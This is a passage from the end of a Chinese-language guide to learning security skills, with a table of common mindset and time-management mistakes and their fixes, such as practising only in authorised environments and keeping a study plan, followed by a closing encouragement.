| 心态 | 盲目比较 | 纵向比较，建立个人基线 |
| 心态 | 忽视职业道德 | 白名单原则，只在授权环境练习 |
| 时间管理 | 无计划学习 | 螺旋式学习计划 |
| 时间管理 | 过度投入 | 每天 2-3 小时，保持生活平衡 |
| 时间管理 | 碎片化学习 | 区分碎片时间与整块时间的用途 |

记住：学习安全技术是一场马拉松，不是短跑。避免这些误区不能让你一夜成为高手，但能让你在正确的道路上持续前进，最终达到目标。**方向对了，慢就是快。**
